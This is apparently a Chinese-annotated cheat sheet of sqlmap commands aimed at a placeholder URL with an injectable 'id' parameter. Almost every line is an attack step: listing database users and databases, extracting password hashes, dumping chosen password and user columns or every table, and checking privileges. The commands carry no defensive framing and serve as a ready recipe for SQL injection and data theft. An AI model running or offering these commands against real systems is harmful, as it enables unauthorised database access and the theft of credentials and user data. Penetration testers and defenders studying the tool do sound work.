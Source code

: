 #dbms 指定数据库类型

```
sqlmap -u "http://XXXXXXX?id=1" --dbms "Mysql" --users 
```



 #列数据库用户

```
sqlmap -u "http://XXXXXXX?id=1" --users
```



#列数据库

```
sqlmap -u "http://XXXXXXX?id=1" --dbs
```



 #数据库用户密码

```
sqlmap -u "http://XXXXXXX?id=1" --passwords
```



#列出指定用户数据库密码

```
sqlmap -u "http://XXXXXXX?id=1" --passwords-U root -v 0 
```



 #列出指定字段，列出 20 条

```
sqlmap -u "http://XXXXXXX?id=1" --dump -C "password,user,id" -T "tablename" -D "db_name" --start 1 --stop 20
```



 #列出所有数据库所有表

```
sqlmap -u "http://XXXXXXX?id=1" --dump-all -v 0
```



 #查看权限

```
sqlmap -u "http://XXXXXXX?id=1" --privileges
```



#查看指定用户权限

```
sqlmap -u "http://XXXXXXX?id=1" --privileges -U root 
```

